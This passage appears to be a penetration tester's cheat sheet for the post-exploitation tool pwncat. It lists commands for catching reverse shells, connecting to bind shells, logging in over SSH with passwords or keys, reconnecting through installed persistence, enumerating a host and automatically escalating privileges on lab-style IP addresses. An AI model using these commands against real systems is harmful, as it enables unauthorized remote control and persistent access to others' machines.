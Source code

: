 ## Scripts

- [pwncat](https://github.com/calebstewart/pwncat) - pwncat is a post-exploitation platform for Linux targets

    ```bash
    cd ~/tools
    source pwncat-env/bin/activate

    # Connect to a bind sheql
    pwncat connect://10.10.10.10:4444
    pwncat 10.10.10.10:4444
    pwncat 10.10.10.10 4444
    # Listen for reverse shell
    pwncat bind://0.0.0.0:4444
    pwncat 0.0.0.0:4444
    pwncat :4444
    pwncat -lp 4444
    # Connect via ssh
    pwncat ssh://user:password@10.10.10.10
    pwncat user@10.10.10.10
    pwncat user:password@10.10.10.10
    pwncat -i id_rsa user@10.10.10.10
    # SSH w/ non-standard port
    pwncat -p 2222 user@10.10.10.10
    pwncat user@10.10.10.10:2222
    # Reconnect utilizing installed persistence
    #   If reconnection failes and no protocol is specified,
    #   SSH is used as a fallback.
    pwncat reconnect://user@10.10.10.10
    pwncat reconnect://user@c228fc49e515628a0c13bdc4759a12bf
    pwncat user@10.10.10.10
    pwncat c228fc49e515628a0c13bdc4759a12bf
    pwncat 10.10.10.10

    ^D
    run enumerate.gather

    run escalate.auto exec

    ---OLD---
